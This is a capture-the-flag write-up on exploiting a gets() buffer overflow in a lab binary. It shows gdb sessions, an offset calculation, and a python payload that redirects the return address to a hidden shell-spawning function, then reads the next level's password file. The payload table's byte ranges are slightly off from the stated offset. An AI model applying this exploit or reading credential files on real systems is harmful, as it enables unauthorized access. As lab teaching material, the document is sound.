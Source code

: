 ## Buffer overflow with gets (level1)

This [binary](source.c) uses [gets](https://linux.die.net/man/3/gets) to fill a
buffer from user input. gets() is vulnerable since it does not check the buffer
size when writing into it (I mean the bug section of its man literally starts
with "Never use gets()"). There is also a function _run_ which is not called by
_main_ but launches a shell.

All we have to do is to get the buffer address. Using gdb, I break in main just
before the gets call and get eax's value:

```shell
# run gdb on the binary
gdb ./level1
# disassemble the main to get a look at the assembly code
(gdb) disass main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
# break before gets call
(gdb) b \*0x0804848d
Breakpoint 1 at 0x804848d
# start the program
(gdb) run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x0804848d in main ()
# print eax
(gdb) x $eax
0xbffffb10:     0x080484a0
```

0xbffffb10 is the address inside the _eax_ register and 0x080484a0 is the value
at this address. To check that this is really the start of the buffer we can
fill it with some random text and print it after:

```shell
# break on the instruction after the gets() call
(gdb) b *0x08048495
# continue
(gdb) c
Continuing.
# input some string
some string

Breakpoint 3, 0x08048495 in main ()
# print the string from the start of the buffer
(gdb) p (char *)0xbffffb10
$6 = 0xbffffb10 "some string"
```

Now we must write some data to the buffer until we overwrite the return address
value. This is possible because the stack grows 'downwards' from the highest
memory addresses to the lowest and that the function's arguments and return
address are pushed to the stack before its local variables. So we know that the
local buffer will be situated before the return address in memory. The return
address on x86 systems is always situated at ebp's value + 4:

```shell
(gdb) x $ebp + 4
0xbffffb5c:     0xb7e454d3
# this checks out, since 0xbffffb5c is greater than 0xbffffb10.
```

This means that when the main function's execution will be done the next
instruction executed after the ret will be at 0xb7e454d3. What we want, to get
into the shell, is to replace this value with the run() function's address.
First get the address:

```shell
# info address returns the address of the given symbol
(gdb) i addr run
Symbol "run" is at 0x8048444 in a file compiled without debugging.
```

Then we have all we need to build our payload. The size of our buffer is equal
to the address of the return address minus the start of the buffer:
`bffffb5c-bffffb10 = 76`. This means that our payload should look like that:

| byte ranges (inclusive) | data                       |
|-------------------------|----------------------------|
| [0 ... 76]              | whatever                   |
| [77 ... 80]             | run's address (0x08048444) |


```shell
# give the payload as input to level1
python -c 'print "a" * 76 + "\x44\x84\x04\x08"' | ./level1
```

> Note that the return address bytes have been reversed since we're dealing with
> a little endian system.

The command above will output the fallowing, meaning that we indeed reached and
exeucted the run() function:

```
Good... Wait what?
Segmentation fault (core dumped)
```

However the shell does not wait because stdin has been closed after gets(). To
remdey this, we need to execute the payload command in a sub shell and to call
an other command that will keep the shell pipe open:

```shell
# keep the pipe open with cat
(python -c 'print "a" * 76 + "\x44\x84\x04\x08"'; cat) | ./level1
# then we have access to the shell
whoami # -> level2
cat /home/user/level2/.pass # -> [the flag]
```
